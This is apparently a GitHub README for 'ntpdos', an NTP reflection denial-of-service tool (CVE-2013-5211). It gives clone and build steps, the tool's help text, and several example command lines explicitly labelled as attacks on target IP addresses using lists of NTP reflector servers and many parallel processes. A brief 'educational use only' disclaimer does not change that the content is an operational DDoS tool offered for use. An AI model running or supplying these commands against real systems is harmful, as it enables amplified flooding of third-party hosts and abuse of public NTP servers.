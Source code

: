# ntpdos

PoC for distributed NTP reflection DoS (CVE-2013-5211).

git clone https://github.com/CryptoXSS/ntpdos
cd ntpdos
make
./ntpdos
## Usage

```
$ ./ntpdos -H
--==[ ntpdos by sepehrdad ]==--

usage:

  ntpdos -t <addr> -s <addr> [options] | [misc]

options:

  -t <addr>    - target ip address
  -T <file>    - list of target ip addresses
  -s <addr>    - ntp server ip address
  -S <file>    - list of ntp server ip addresses
  -p <num>     - number of parallel processes (default: 80)
  -d <num>     - delay in microsecs (default: 1000)

misc:

  -V           - show version
  -H           - show help

example:

  # Attack 127.0.0.1 with servers from servers.lst
  $ ntpdos -t 127.0.0.1 -S servers.lst

  # Attack targets from targets.lst with 192.168.2.11 server
  $ ntpdos -T targets.lst -s 192.168.2.11

  # Attack targets from targets.lst with servers from servers.lst
  $ ntpdos -T targets.lst -S servers.lst

  # Attack 1.2.3.4 with 5.6.7.8 using 200 parallel processes
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -p 200

  # Attack 1.2.3.4 with 5.6.7.8 with 1 microsec delay
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -d 1

notes:

  * list of ip addresses should have 1 ip address per line

```

## License

This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE

THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## Get Involved

**Please, send us pull requests!**
